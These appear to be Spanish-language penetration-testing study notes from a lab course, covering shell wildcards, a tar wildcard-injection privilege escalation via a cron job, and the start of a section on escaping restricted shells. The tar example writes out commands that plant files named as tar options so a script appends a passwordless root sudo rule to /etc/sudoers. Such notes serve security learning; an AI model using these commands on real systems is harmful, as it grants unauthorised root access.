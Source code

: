 Un carácter comodín puede sustituir a otros caracteres y el shell lo interpreta antes de ejecutar otras acciones. Ejemplos de comdines

| **Caracter** | **Significado**                                                                                                                                                                            |
| ------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `*`          | Un asterisco que puede coincidir con cualquier número de caracteres en un nombre de archivo.                                                                                               |
| `?`          | Coincide con un solo caracter.                                                                                                                                                             |
| `[ ]`        | Los corchetes encierran caracteres y pueden coincidir con cualquiera de ellos en la posición definida.                                                                                     |
| `~`          | Una tilde al comienzo se expande al nombre del directorio de inicio del usuario o puede tener otro nombre de usuario añadido para hacer referencia al directorio de inicio de ese usuario. |
| `-`          | Un guion entre paréntesis indicará un rango de caracteres.                                                                                                                                 |
#### Ejemplo de abuso con `tar`

- Si nos vamos  a  `man tar` observamos lo siguiente
	```bash
	<SNIP>
	Informative output
	       --checkpoint[=N]
	              Display progress messages every Nth record (default 10).
	
	       --checkpoint-action=ACTION
	              Run ACTION on each checkpoint.
	```
	Si a `tar` le pasamos las siguietnes flags: `--checkpoint=1` y `--checkpoint-action=exec=sh root.sh` se ejecutaría el script
- Supgonamos que hemos identificado una tarea programada que hace lo siguiente: 
	```bash
	#
	#
	mh dom mon dow command
	*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
	```
	En este caso el uso de `*` en un comando `tar` sin restricciones, hace que `tar` interprete todas las entradas del directorio como argumentos.
- Podemos explotarlo, añadiendo en el mismo directorio en el que está la tarea `backup.tar.gz` lo siguiente: 
	```bash
	echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
	echo "" > "--checkpoint-action=exec=sh root.sh"
	echo "" > --checkpoint=1
	```
	Esto hará que los archivos que se han creado se interpreten como argumentos de `tar`
- En este caso nuestro nuevo usuario tendría todos los privilegios
### Escapando shells restringidos
Mas info [aquí](https://0xffsec.com/handbook/shells/restricted-shells/)
Son shells en las que al usuario solamente se le permiten ejecutar una serie limitada de comandos. Hay varias formas de intentar escapar este tipo de shells: 
- Listar comandos disponibles
	```bash
	# Muestra todos los comandos disponibles, sin tener en cuenta las restricciones
	compgen -c
	# tabular dos vecess después de escribir rbash
	rbash$ <TAB><TAB>
	# buscar awk, vi, scp,less, env,find
	```
- Command injection